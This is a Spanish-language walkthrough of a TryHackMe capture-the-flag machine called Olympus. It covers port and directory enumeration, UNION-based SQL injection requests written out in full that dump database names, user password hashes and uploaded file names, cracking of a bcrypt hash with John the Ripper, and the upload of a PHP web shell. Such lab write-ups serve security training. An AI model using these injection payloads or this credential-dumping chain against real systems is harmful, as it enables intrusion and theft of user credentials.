Olympus es una maquina  em la que tendremos que enumerar los directorios del sitio web para luego tener que explotar un sql injecction para enumerar las credenciales validad y luego encontrar el nombre de nuestro archivo malicioso que le asigna la funcion y lo alamcena en la base de datos.


- Link [olympus](https://tryhackme.com/room/olympusroom)

- Created by [PetitPrinc3](https://tryhackme.com/p/PetitPrinc3)

# Walkthrough
--- 


## Enumeración

Empezaremos con la enumeración de puertos haciendo uso de la herramienta de nmap

```php
❯ nmap -p- --open --min-rate 1000 -vvv -Pn -n 10.10.152.108 -oG allportsScan
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Primero enumeramos los puertos abiertos, así no nos tomara mucho tiempo como si enumeráramos servicios y versiones de cada uno de los puertos. En este caso nos da dos puertos, los cuales son `22` y `80`

Enumerando las versiones y servicios de los puertos obtendremos la siguiente información

```php
❯ nmap -p22,80 -sC -sV -Pn -vvv -n 10.10.152.108 -oN servicesScan

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0a:78:14:04:2c:df:25:fb:4e:a2:14:34:80:0b:85:39 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDPNeXYxrC1xv8fhFNve9CXjWSQcCXnWZThU1putOar7KBcQmoCQUYOqvmS+CDauJMPqVE3rqS0+CpTJnZn2ZWXDaCzFLZ84hjBXq8BqoWOFB0Vv0PjRKfBKC54tpA67NgLfp1TmmlS6jp4i75lxkZ6pSTOPxGUrvYvJ0iN2cAHJkgA9SZDrvT11HEp5oLmS2lXtFSoK/Q9pKNIl7y+07gZLRUeIKIn1bFRc4qrXn+rpDQR2fP9OEYiHhdJmTJJL+KjDAqZmIj0SYtuzD4Ok2Nkg5DHlCzOizYNQAkkj6Ift7dkD6LPebRp9MkAoThDzLya7YaFIP66mCbxJRPcNfQ3bJkUy0qTsu9MiiNtyvd9m8vacyA803eKIERIRj5JK1BTUKNAzsZeAuao9Kq/etHskvTy0TKspeBLwdmmRFkqerDIrznWcRyG/UnsEGUARe2h6CwuCJH8QCPMSc93zMrsZNs1z3FIoMzWTf23MWDOeNA8dkYewrDywEuOvb3Vrvk=
|   256 8d:56:01:ca:55:de:e1:7c:64:04:ce:e6:f1:a5:c7:ac (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHFtzLQXLhGiDzPN7Al84lSfH3jFwGniFL5WQSaIjC+VGMU8mbvbGVuOij+xUAbYarbBuoUagljDmBR5WIRSDeo=
|   256 1f:c1:be:3f:9c:e7:8e:24:33:34:a6:44:af:68:4c:3c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKhvoRyjZN/taS1uwwTaQ4uZrGhVUje0YWW4jg4rfdXw
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://olympus.thm
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Enumeración del puerto 80

Haciendo uso de la herramienta de `whatweb` obtendremos mas información sobre el sitio web. Podemos observar que la web nos redirige a un dominio, el que debemos agregar al `/etc/hosts` 

```php
.
.
.
[ RedirectLocation ]
        HTTP Server string location. used with http-status 301 and 
        302 

        String       : http://olympus.thm (from location)
.
.
.
```

El sitio web se ve de la siguiente manera:



Ahora lo que haremos será fuzzing de directorios que pueden no podemos visualizar del sitio web, la herramienta que usaremos será `ffuf`, tu puedes hacer uso de otras pero en lo personal esta me esta llegando a gustar 
```php
❯ ffuf -c -w  /usr/share/dirb/wordlists/common.txt -fl 1 -u http://olympus.thm/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://olympus.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 1
________________________________________________

.htaccess               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 190ms]
                        [Status: 200, Size: 1948, Words: 238, Lines: 48, Duration: 189ms]
.htpasswd               [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 1350ms]
~webmaster              [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 189ms]
.hta                    [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 2355ms]
index.php               [Status: 200, Size: 1948, Words: 238, Lines: 48, Duration: 188ms]
javascript              [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 189ms]
phpmyadmin              [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 188ms]
server-status           [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 187ms]
static                  [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 187ms]

```

Uno de los directorios es `~webmaster`, la siguiente imagen muestra el contenido del sitio en el directorio mencionado



Teniendo el directorio anterior, seguiremos haciendo fuzzing 

```php
❯ ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fl 198 -u http://olympus.thm/~webmaster/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://olympus.thm/~webmaster/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 198
________________________________________________

admin                   [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 188ms]
img                     [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 4387ms]
css                     [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 187ms]
includes                [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 187ms]
js                      [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 187ms]
fonts                   [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 188ms]
LICENSE                 [Status: 200, Size: 1070, Words: 153, Lines: 22, Duration: 187ms]
:: Progress: [220560/220560] :: Job [1/1] :: 82 req/sec :: Duration: [0:17:35] :: Errors: 0 ::

```

## Explotación

Encontramos al interesante que es un directorio que es ``admin`` en el que podemos realizar búsquedas y cuenta con un panel de login.



En el campo de búsqueda ingresamos `admin'` para probar si es vulnerable a una inyección sql y podemos ver en la siguiente imagen que si es vulnerable



### SQL injection N° 1

Para una mayor rapidez y comodidad lo haremos con la herramienta de burpsuite.

Iniciamos enumerando las columnas que tiene la consulta

```php
POST /~webmaster/search.php HTTP/1.1
Host: olympus.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Origin: http://olympus.thm
DNT: 1
Connection: close
Referer: http://olympus.thm/~webmaster/search.php
Cookie: PHPSESSID=lid4268d89s028nmtorluddac6
Upgrade-Insecure-Requests: 1

search=admin%27union%20select%201,2,3,4,5,6,7,8,9,10--%20-&submit=
```



Pudimos enumerar el numero de columnas que tiene la consulta.

Procederemos a enumerar las base de datos `search=admin%27union%20select%201,2,group_concat(schema_name),4,5,6,7,8,9,10%20from%20information_schema.schemata--%20-&submit=`

```php
POST /~webmaster/search.php HTTP/1.1
Host: olympus.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 127
Origin: http://olympus.thm
DNT: 1
Connection: close
Referer: http://olympus.thm/~webmaster/search.php
Cookie: PHPSESSID=lid4268d89s028nmtorluddac6
Upgrade-Insecure-Requests: 1


search=admin%27union%20select%201,2,group_concat(schema_name),4,5,6,7,8,9,10%20from%20information_schema.schemata--%20-&submit=
```

Enviando la anterior petición podemos obtener las base de datos. 

```php
mysql,information_schema,performance_schema,sys,phpmyadmin,olympus
```

Ahora teniendo la base de datos `olympus` enumeraremos el nombre de las tablas  

```php
POST /~webmaster/search.php HTTP/1.1
Host: olympus.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 157
Origin: http://olympus.thm
DNT:1
Connection: close
Referer: http://olympus.thm/~webmaster/search.php
Cookie: PHPSESSID=lid4268d89s028nmtorluddac6
Upgrade-Insecure-Requests: 1

search=admin%27union%20select%201,2,group_concat(table_name),4,5,6,7,8,9,10%20from%20information_schema.tables%20where%20table_schema='olympus'--%20-&submit= 
```

```php
categories,chats,comments,flag,posts,users
```

Ahora enumeraremos las columnas que tiene la tabla.

```php
POST /~webmaster/search.php HTTP/1.1
Host: olympus.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 186
Origin: http://olympus.thm
DNT: 1

Connection: close
Referer: http://olympus.thm/~webmaster/search.php
Cookie: PHPSESSID=lid4268d89s028nmtorluddac6
Upgrade-Insecure-Requests: 1
search=admin%27union%20select%201,2,group_concat(column_name),4,5,6,7,8,9,10%20from%20information_schema.columns%20where%20table_schema='olympus'%20and%20table_name='users'--%20-&submit=
```

Tenemos las siguientes columnas de la tabla.

```php
randsalt,user_email,user_firstname,user_id,user_image,user_lastname,user_name,user_password,user_role
```

Teniendo las columnas y el nombre de la tabla podemos realizar la consulta una consulta para ver el contenido de esta.

```php
POST /~webmaster/search.php HTTP/1.1
Host: olympus.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 143
Origin: http://olympus.thm
DNT: 1
Connection: close
Referer: http://olympus.thm/~webmaster/search.php
Cookie: PHPSESSID=lid4268d89s028nmtorluddac6
Upgrade-Insecure-Requests: 1
search=admin%27union%20select%201,2,group_concat(user_name,':',user_password,':',user_role,';'),4,5,6,7,8,9,10%20from%20olympus.users--%20-&submit=
```

Haciendo la consulta anterior obtendremos credenciales y usuarios

```php
prometheus;$2y$10$YC6uoMwK9VpB5QL513vfLu1RV2sgBf01c0lzPHcz1qK2EArDvnj3C;User,
root;$2y$10$lcs4XWc5yjVNsMb4CUBGJevEkIuWdZN3rsuKWHCc.FGtapBAfW.mK;Admin,
zeus;$2y$10$cpJKDXh2wlAI5KlCsUaLCOnf0g5fiG0QSUS53zp/r0HMtaj6rT4lC;User
```

### Cracking - John The Ripper
Para poder crackear las credenciales que estan encriptadas haremos uso de la herramienta de john Ripper. Esta herramienta es muy potente para esto, pero se tiene otras en la web como [Crackstation](https://crackstation.net/) 

```php
❯ john --wordlist=/usr/share/wordlists/rockyou.txt credentials
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
summertime       (prometheus)     
1g 0:00:05:38 0.11% (ETA: 2023-11-28 09:46) 0.002957g/s 57.60p/s 127.2c/s 127.2C/s jason01..david10
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
                     
```

Dejando de lado el crackeo tambien puedes revisar el siguiente post [Victor - CMS SQL injection](https://github.com/BigTiger2020/Victor-CMS-/blob/main/README.md) para ver alternativas de explotación

Teniendo las credenciales nos dirigimos a la siguiente ruta de la web [http://olympus.thm/~webmaster/admin/]() donde tenemos un panel de login en el cual ingresaremos las credenciales encontradas.




Revisando el CMS encontraremos correos de los usuarios, en el cual podemos ver un subdominio que es `chat.olympus.thm` así que visitaremos el subdominio. Antes de visitar por el navegador no olvides agregar en el `/etc/hosts` 



Se intento ingresar al CMS con los usuarios y la contraseña encontrada, pero no se pudo inciar sesion en el CMS. Tendremos presente la siguiente información

```php
prometheus@olympus.thm
root@chat.olympus.thm
zeus@chat.olympus.thm
prometheus: summertime
```

Ingresamos al sitio web [http://chat.olympus.thm/login.php]() en donde tendremos otro login, al ingresar las credenciales que se encontró realizando el SQLinjection podremos ingresar



Al iniciar sesión encontraremos una app de chat en la cual tenemos unos mensajes, en donde al parecer el usuario `prometheus` envió unas credenciales.


Se puede ver que los archivos se suben en alguna ruta, por lo que vamos a realizar un descubrimiento de directorios haciendo uso de la herramienta `ffuf` 

```php
❯ ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fl 1 -u http://chat.olympus.thm/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://chat.olympus.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 1
________________________________________________

uploads                 [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 187ms]
static                  [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 187ms]
javascript              [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 187ms]
```

Encontramos unos directorios interesantes, uno de los directorios que es `uploads` es un poco mas interesantes. Revisando el directorio podemos ver que no tenemos lectura del directorio para ver el contenido. 

### SQL injection N° 2
Recordemos que en el mensaje que se tiene leemos que el archivo toma un nombre random, por lo que pensé que no habría mucho que hacer pero recordé que realizar el sql injection vimos una tabla de la base de datos llamada `chats`. Vamos a iniciar a enumerar esa base de datos con ayuda de `Burp Suite`

```php
POST /~webmaster/search.php HTTP/1.1
Host: olympus.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 186
Origin: http://olympus.thm
DNT:1
Connection: close
Referer: http://olympus.thm/~webmaster/search.php
Cookie: PHPSESSID=lid4268d89s028nmtorluddac6
Upgrade-Insecure-Requests: 1
search=admin%27union%20select%201,2,group_concat(column_name),4,5,6,7,8,9,10%20from%20information_schema.columns%20where%20table_schema='olympus'%20and%20table_name='chats'--%20-&submit=

```

Inyectando el sql obtenemos varios nombres de las columnas de la tabla, la que nos interesa es `file`.

```php
dt,file,msg,uname
```

Teniendo en cuenta la columna `file` pasamos a realizar la consulta

```php
POST /~webmaster/search.php HTTP/1.1
Host: olympus.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 106
Origin: http://olympus.thm
DNT:1

Connection: close
Referer: http://olympus.thm/~webmaster/search.php
Cookie: PHPSESSID=lid4268d89s028nmtorluddac6
Upgrade-Insecure-Requests: 1

search=admin%27union%20select%201,2,group_concat(file),4,5,6,7,8,9,10%20from%20olympus.chats--%20-&submit=
```

Realizando la consulta obtenemos el nombre de archivo, pero no encontramos nada interesante. 

```php
47c3210d51761686f3af40a875eeaaea.txt
```

Ahora sabemos como enumerar el nombre de los archivos que subimos, conociendo la ruta donde se almacenan podemos subir un archivo `php` malicioso para ejecutar comandos.

Ahora subiremos un archivo [web - shell](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/) en php que nos permita ejecutar comandos.

```php
47c3210d51761686f3af40a875eeaaea.txt
96e5bb8c98e8d5bc991584b90a4601c1.php
5c4e68124fdf861362ff9b8ca3c652dc.png
```

Una vez subida y conociendo el nombre del archivo podemos ejecutar comandos en la maquina victima, ahora lo que haremos sera obtener una revershell para tener una shell de la maquina victima.

